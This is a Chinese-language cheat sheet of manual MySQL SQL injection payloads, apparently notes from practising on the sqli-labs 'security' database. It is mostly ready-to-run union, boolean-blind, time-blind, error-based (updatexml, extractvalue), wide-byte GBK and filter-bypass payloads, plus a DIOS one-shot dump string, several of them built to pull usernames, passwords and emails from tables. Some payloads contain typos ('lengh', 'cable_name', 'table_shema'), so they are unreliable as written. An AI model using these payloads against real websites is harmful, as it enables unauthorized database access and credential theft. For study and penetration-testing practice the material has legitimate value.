 # sql手工注入命令

## information_schema 结构

**一般主要用到的有information_schema中的tables表和columns表**
**用法：information_schema.tables **  **
**information_schema.tables 下有 table_schema 和table_name  这两个重要列名

* **table_schema 数据库名**
* **table_name  表名**

**知道数据库名称之后要查看底下有哪些表可以采用 **`union select group_concat(table_name) from information_schema.tables where table_schema ="数据库名" -- +`
**查看某个表里有哪些东西：**`union select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名' and table_schema='数据库名'-- +`
**注意，我们要查的是指定数据库的指定表，而如果不指定数据库的话其他数据库中同名表中的列也会被显示出来**
**爆列中的数据** `'union select 1,2,group_concat(username," : ",password) from users -- +`

## 常用的函数

**group_contact() ：将多个查询到的数据拼接后形成字符串输出**

**注意：sql注入候需要用到的闭合方式不一定，具体要看后台代码。主要有** `' "  ')  ")`这几种

## 基本的回显注入爆库语句：

**有回显的时候一般采用联合查询的方式进行注入，可以将查到的信息返回到页面上**

```
order by 4 -- +
union select 1,2,3,4 -- +                
union select 1,database(),user() -- +     查看数据库名和当前用户
UNION SELECT 1,2,@@version -- -           
UNION SELECT 1,2,version() -- -
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='库名'--+
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名' and table_schema='库名' -- +
```

## 盲注

**页面上不回显我们查询的信息，这时用union select注入就不行了，因为联合注入需要有回显位**

### 基于布尔型的盲注

**布尔盲注主要用到length(),ascii() ,substr()这三个函数，首先通过length()函数确定长度再通过另外两个确定具体字符是什么。布尔盲注向对于联合注入来说需要花费大量时间。**
**length(): 返回内容的长度**
**ascii(str):返回最左侧字符的ascii值**
**substr(obj，start，length)： **

* **obj：从哪个内容中截取，可以是数值或字符串。**
* **start：从哪个字符开始截取（1开始，而不是0开始）**
* **length：截取几个字符（空格也算一个字符）。**

```
and length(database())>9--+   查看数据库名的长度范围
s                   看数据库名称的第一个字符的ascii是不是

and ascii(substr((database()),1,1))=115--+              看数据库名称的第一个字符的ascii是不是115

以上面两个为一组 之后就将 'database' 的部分换成各个回显型查询的"selcet ...."  部分 一个一个的去试

```

### 时间类型的盲注

**当页面连正确错误都不给你回显的时候，布尔形的盲注效果就不是很好，可以加上一些时间判断变成时间性盲注来判断**
**基于时间的注入会用到sleep()函数，通过页面返回的间隔时间确定输入的是不是正确的。**
**if(a,sleep(10),1)如果a结果是真的，那么执行sleep(10)页面延迟10秒，如果a的结果是假，执行1，页面不延迟**

```
and if(1=1,sleep(5),1)--+   查看是否存在盲注，如果存在的话页面会延迟5秒刷新，（当正确闭合的时候会有5秒延迟）
之后吧1=1 换成基于布尔类型的判断就行了

and if(length(database())>9,sleep(5),1)--+           查看数据库名长度是不是>9
and if(substr((database()),1,1)='a',sleep(5),1)--+   查看数据库名称的第一个字段是不是a

```

**整个时间盲注结合起来就像这样：**

```

and if(lengh(select group_concat(table_name) from information_schema.tables where table_schema='库名')>=15,sleep(5),1) -- +              查看库中表的集合字符串的长度

and if(substr(select group_concat(table_name) from information_schema.tables where table_schema='库名'),1,1)='a',sleep(5),1)--+           查看库中表的集合字符串第一个字符是不是a
```

## Mysql 报错注入

**没有显示位的时候可以，但是前提是php代码中要用到回显mysql_error()信息。**
**报错注入的原理是用一些函数在内容格式有错误的时候产生的报错会解析查询语句，如返回时将** `database()`显示为数据库名 ，`user()` 返回为用户名这样

**报错注入一般常用的有floor()报错注入，extractvalue()报错注入，updatexml()报错注入和group by()报错注入。**

**extractvalue()报错注入**：**
**extractvalue($**1,**$**2)  其中**$**1是字符串，**$**2 是xpath语句，当xpath语句有错误的时候，就会产生报错，可以利用这点构造语句进行注入并且回显信息，语句就是回显注入的查询语句**

`select extractvalue(1,concat(1,2,'#',(select group_concat(cable_name) from information_schema.tables where table_schema='security')));`

**updatexml报错注入**

**UPDATEXML (XML_document, XPath_string, new_value)**
**第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc**
**第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。**
**第三个参数：new_value，String格式，替换查找到的符合条件的数据**
**作用：改变文档中符合条件的节点的值，改变XML_document中符合XPATH_string的值**
**当我们XPath_string语法报错时候就会报错，updatexml()报错注入和extractvalue()报错注入基本差不多。**

```
123' and select updatexml(1,concat(0x5c,version(),0x5c),1)#     爆版本
123' and select updatexml(1,concat(0x5c,database(),0x5c),1)#    爆数据库

 1') and updatexml (1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1)#

123') updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x5c),1)#      爆表名
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1))#
   爆字段名

123' and (updatexml(1,concat(0x5c,(select password from (select password from users where username='admin1') b),0x5c),1))#
爆密码该格式针对mysql数据库。

爆其他表就可以，下面是爆emails表

123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='emails'),0x5c),1))#

1' and (updatexml (1,concat(0x5c,(select group_concat(id,email_id) from emails),0x5c),1))#   爆字段内容。
```

**group by报错注入**
**group by 报错注入相较于上面的两种报错注入而言相对复杂一些，主要由于** `floor(rand(0)*2` 和 `group by` 一同使用时候会出现主键重复的情况而产生报错从而带出想要的信息

**宽字节注入**

**原理：当使用转义符号‘\’处理单引号和双引号的时候，如果可以识别是gbk编码（将两个字节合成一个汉字）的话，就可以在单引号前面加上  %81这样的内容，在url传输中，'**\**' 会采用url编码，形成%5c    ”%81%5c“ 会被解释为一个中文字符，从而实现单引号的闭合。打个比方：  id='%81**\**'   -->    id='乗'   主要是干掉了‘\’**

**注入条件：**

* **数据库使用了GBK编码；**
* **使用了addslashes()、mysql_real_escape_string()、 mysql_escape_string() 这样的转义函数会把单引号转义为特殊字符（前面加\ ）**
  **如何判断是不是使用了转义：只能用手动去试试 **

  ```
  -1%81' union select 1,2,3  -- +

  ```

  **但是这时又会出现一个问题： **
  `union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='manber'--+`

  **manber 两边的单引号或者双引号也会被注释掉造成无法查询；这时候要用unicode编码或者使用十六进制编码进行绕过，数据库是能识别出这些编码的信息的**

**二次注入**

**堆叠注入**

```
union select 'a',group_concat(table_name),'c' from information_schema.tables where table_schema = database()#

union select 'a',group_concat(table_name),'c' from information_schema.tables where table_shema = database()#

```

## DIOS (一次性转储载荷)

**dios 是一个精心设计的有效载荷，它将转储数据库（），表（）和列 （） 并将其显示在网站上**

```
' UNION SELECT 1,CONCAT('>', VERSION(), (SELECT @ FROM (SELECT @:=0x00, (SELECT 0 FROM information_schema.columns WHERE table_schema=DATABASE() AND 0x00 IN (@:=CONCAT(@, 0x3c62723e, table_name, 0x3a3a, column_name)))) x)), 3 -- +
```

## sql简单绕过：

**利用大小写加注释符号进行绕过**

```
'/*!UnIon/*trick-comment*/*/ sElect 1,2,3,4,5,6 -- -
#其中`/*！`  和 `*/` 是mysql的注释，只在特定版本的mysql中才有用 实际上执行的查询是 "SELECT 1,2,3,4,5,6


'/*!Union/*AmitTheNoob*/*/ select 1,2,3,table_name,5,6 from information_schema.tables where table_schema=database()-- -
```
